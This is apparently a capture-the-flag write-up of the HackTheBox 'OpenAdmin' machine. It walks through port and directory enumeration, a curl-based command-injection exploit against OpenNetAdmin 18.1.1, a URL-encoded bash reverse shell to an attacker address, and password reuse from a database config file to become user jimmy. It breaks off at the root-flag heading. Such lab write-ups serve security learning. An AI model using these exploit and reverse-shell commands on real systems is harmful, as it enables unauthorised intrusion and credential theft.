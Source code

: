 ## Default Information
IP Address: 10.10.10.171\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.171    openadmin.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.171 --rate=1000 -e tun0
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-10-31 02:16:56 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.171                                    
Discovered open port 80/tcp on 10.10.10.171   
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | Open |
| 80	| http | Apache httpd 2.4.29 ((Ubuntu)) | Open |

Afterwwards, we will use Nmap to scan for potential vulnerabilties on each of the ports

```
{Nmap output}
```

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://openadmin.htb

```
http://10.10.10.171:80/.htpasswd            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.txt        (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.html       (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.php        (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.asp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.html            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.php        (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.aspx       (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.php             (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.jsp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.asp             (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.asp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.aspx            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.aspx       (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.jsp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta                 (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.txt        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.jsp             (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.html       (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.txt             (Status: 403) [Size: 277]
http://10.10.10.171:80/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
http://10.10.10.171:80/index.html           (Status: 200) [Size: 10918]
http://10.10.10.171:80/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
http://10.10.10.171:80/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
http://10.10.10.171:80/server-status        (Status: 403) [Size: 277]
```

### Web-content discovery

Viewing all the sites, there was not much discovery until we visit http://openadmin.htb/admin. Viewing the page source of the website, we notice a strange ```href``` tag 
that points to ../ona

![ona href link](https://github.com/joelczk/writeups/blob/main/HTB/Images/OpenAdmin/href_ona.png)

Following that link, we are redirected to http;//openadmin.htb/ona which is OpenNetAdmin. From there, we are also able to find the current version of OpenNetAdmin that we are 
using

![ona site](https://github.com/joelczk/writeups/blob/main/HTB/Images/OpenAdmin/ona.png)

## Exploit

### Remote Code Execution on OpenNetAdmin
Using searchsploit, we can find that OpenNetAdmin 18.1.1 is vulnerable to a remote code execution

```
┌──(kali㉿kali)-[~]
└─$ searchsploit opennetadmin 18.1.1
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                 | php/webapps/47691.sh
------------------------------------------------------------ ---------------------------------
```

Exploiting this vulnerability, we are able to execute a ```id``` command from the server of OpenNetAdmin

```
┌──(kali㉿kali)-[~]
└─$ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";id;echo \"END\"&xajaxargs[]=ping" "http://openadmin.htb/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Obtaining reverse shell

Now, we would have to execute a reverse shell command using the ```curl``` command mentioned above.

```
┌──(kali㉿kali)-[~]
└─$ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.7%2F3000%200%3E%261%27;echo \"END\"&xajaxargs[]=ping" "http://openadmin.htb/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

Next, all that we have to do is to stabilize the reverse shell

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.171] 45470
bash: cannot set terminal process group (1245): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ww$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$ export TERM=xterm
export TERM=xterm
www-data@openadmin:/opt/ona/www$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@openadmin:/opt/ona/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@openadmin:/opt/ona/www$ 
```

We realize that there are 2 users on this machine, namely Jimmy and Joanna. However, we do not have the permissions to view the files owned by the 2 users.

```
www-data@openadmin:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root   root   4096 Nov 22  2019 .
drwxr-xr-x 24 root   root   4096 Aug 17 13:12 ..
drwxr-x---  5 jimmy  jimmy  4096 Nov 22  2019 jimmy
drwxr-x---  5 joanna joanna 4096 Jul 27 06:12 joanna
```

### Privilege Escalation to Jimmy

We are able to find a database configuration file at /opt/ona/www/local/config/database_settings.inc.php, which shows the database credentials

```
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>www-data@openadmin:/opt/ona/www/local/config$
```

We will try this password to login to the user ```jimmy```, which we managed to do it successfully

```
www-data@openadmin:/opt/ona/www/local/config$ su jimmy     
su jimmy
Password: n1nj4W4rri0R!

jimmy@openadmin:/opt/ona/www/local/config$
```

However, we are still unable to find the user flag. We would probably need to privilege escalate to Joanna to be able to obtain the user flag

```
jimmy@openadmin:~$ cd /home/jimmy
cd /home/jimmy
jimmy@openadmin:~$ ls -la
ls -la
total 32
drwxr-x--- 5 jimmy jimmy 4096 Nov 22  2019 .
drwxr-xr-x 4 root  root  4096 Nov 22  2019 ..
lrwxrwxrwx 1 jimmy jimmy    9 Nov 21  2019 .bash_history -> /dev/null
-rw-r--r-- 1 jimmy jimmy  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jimmy jimmy 3771 Apr  4  2018 .bashrc
drwx------ 2 jimmy jimmy 4096 Nov 21  2019 .cache
drwx------ 3 jimmy jimmy 4096 Nov 21  2019 .gnupg
drwxrwxr-x 3 jimmy jimmy 4096 Nov 22  2019 .local
-rw-r--r-- 1 jimmy jimmy  807 Apr  4  2018 .profile
jimmy@openadmin:~$
```
### Obtaining root flag
